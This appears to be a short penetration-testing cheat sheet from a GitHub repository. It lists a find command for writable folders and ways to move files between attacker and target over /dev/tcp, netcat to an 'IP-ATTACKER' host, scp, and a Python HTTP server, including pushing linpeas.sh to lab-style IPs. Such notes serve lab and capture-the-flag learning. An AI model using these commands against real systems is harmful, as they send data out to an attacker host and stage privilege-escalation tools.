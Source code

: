 ## CHECK FOLDERS WITH WRITABLE PERMS.
```bash
$ find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;
```
---
###  /dev/tcp
```bash
REMOTE:
cat file > /dev/tcp/IP/PORT

LOCAL:
nc -lvp PORT > file
```
---
### SCP
```bash
LOCAL: 
scp username@ip:file .

===========================================================================

LOCAL TO REMOTE:
scp linpeas.sh marcus@10.10.10.238:/tmp/
```
---
### Netcat
```bash
LOCAL:
nc -lvp PORT > FileToTransfer

REMOTE:
nc IP-ATTACKER PORT < FileToTransfer

===========================================================================
LOCAL:
nc -lvp 9003 < linpeas.sh

REMOTE:
nc 10.10.14.99 9003 > linpeas.sh
```
---
### Python Server
```bash
LOCAL:
python3 -m http.server 80
python -m SimpleHTTPServer 80

REMOTE:
wget http://IP/FileToTransfer
OR
curl http://IP/FileToTransfer -o FileToTransfer.example

```
